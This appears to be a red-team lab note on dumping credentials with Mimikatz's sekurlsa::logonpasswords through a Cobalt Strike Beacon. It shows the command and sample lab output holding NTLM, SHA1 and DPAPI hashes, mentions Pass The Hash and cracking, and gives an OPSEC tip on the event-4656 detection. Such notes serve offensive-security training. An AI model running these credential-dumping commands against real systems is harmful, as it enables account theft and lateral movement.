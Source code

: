 ### New Technology LAN Manager (NTLM) Hashes

<mark style="color:yellow;">The</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">**`sekurlsa::logonpasswords`**</mark> <mark style="color:yellow;">Mimikatz module is infamous for being able to "dump plaintext passwords from memory</mark>".

Having a user's password has obvious advantages and was a lucrative tactic for a long time.

However, since protections have improved over time, a lot of mitigations have been ruled out and we have to work along side them in order to get around them.

Disabling Digest Authentication ([wdigest](https://stealthbits.com/blog/wdigest-clear-text-passwords-stealing-more-than-a-hash/)) by default, so happening across plaintext passwords is certainly less common.

This <mark style="color:yellow;">module is still capable of retrieving NTLM hashes</mark> which is useful for pairing the _**Pass The Hash**_ or even cracking to recover the plaintext.

{% hint style="warning" %}
This command requires elevated privileges.
{% endhint %}

```
beacon> mimikatz !sekurlsa::logonpasswords

Authentication Id : 0 ; 579458 (00000000:0008d782)
Session           : Batch from 0
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 8/31/2022 11:49:48 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1105
	msv :
	 [00000003] Primary
	 * Username : jking
	 * Domain   : DEV
	 * NTLM     : 59fc0f884922b4ce376051134c71e22c
	 * SHA1     : 74fa9854d529092b92e0d9ebef7ce3d065027f45
	 * DPAPI    : 0837e40088a674327961e1d03946f5f2
```

As you can see, <mark style="color:yellow;">it allows you to be able to obtain password hashes in a variety of formats such as NTLM, SHA1, and DPAPI</mark>.

<mark style="color:yellow;">Cobalt Strike has a short-hand command for this called</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`logonpasswords`</mark>.&#x20;

After dumping these credentials, go to **View -> Credentials** to see a copy of them.

{% hint style="danger" %}
OPSEC

This module will open a read handle to LSASS which can be logged under event `4656`. Use the "Suspicious Handle to LSASS" saved search in Kibana (Event Manager) to see them.
{% endhint %}
